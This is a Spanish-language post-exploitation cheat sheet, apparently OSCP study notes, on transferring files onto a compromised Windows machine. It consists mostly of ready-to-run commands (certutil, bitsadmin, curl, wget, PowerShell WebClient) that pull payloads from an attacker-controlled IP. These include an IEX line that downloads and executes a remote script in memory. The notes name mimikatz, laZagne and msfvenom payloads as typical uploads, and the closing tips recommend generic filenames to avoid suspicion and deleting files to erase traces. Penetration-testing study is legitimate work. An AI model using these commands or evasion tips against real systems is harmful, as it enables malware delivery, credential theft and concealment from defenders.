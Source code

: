 Durante post-explotación, es habitual necesitar subir herramientas, payloads o scripts a la máquina víctima. Estas son las técnicas más comunes en entornos Windows para transferir archivos desde tu máquina atacante.

---

## 1. certutil (nativo en Windows desde XP+)

```powershell
certutil -urlcache -split -f http://<tu_ip>/archivo.exe archivo.exe
```

- Sencillo, confiable
- Puede estar deshabilitado por antivirus

---

## 2. bitsadmin (deprecado pero funcional en versiones antiguas)

```powershell
bitsadmin /transfer descargar http://<tu_ip>/archivo.exe C:\Windows\Temp\archivo.exe
```

- No siempre disponible en Windows 10+
- Puede ser más lento

---

## 3. curl (presente en Windows 10+)

```powershell
curl http://<tu_ip>/archivo.exe -o archivo.exe
```

O en cmd clásico:
```cmd
curl.exe http://<tu_ip>/archivo.exe -o archivo.exe
```

---

## 4. wget (si lo has subido o existe en el sistema)

```powershell
wget http://<tu_ip>/archivo.exe -OutFile archivo.exe
```

---

## 5. powershell (método genérico)

```powershell
powershell -c "(New-Object Net.WebClient).DownloadFile('http://<tu_ip>/archivo.exe','archivo.exe')"
```

O en ejecución en línea:
```powershell
IEX(New-Object Net.WebClient).DownloadString('http://<tu_ip>/script.ps1')
```

---

## Listener para servir archivos en Kali

```bash
sudo python3 -m http.server 80
```

---

## Casos de Uso OSCP

- Subir herramientas como `winPEAS.exe`, `nc.exe`, `laZagne.exe`, `mimikatz.exe`
- Cargar scripts PowerShell desde memoria
- Transferir DLLs, payloads, o binarios preparados con `msfvenom`

---

## Buenas Prácticas

- Siempre intenta con `certutil` primero, por ser nativo
- Usa rutas cortas y nombres genéricos para no levantar sospechas
- Borrar los archivos tras usarlos para limpiar trazas

---
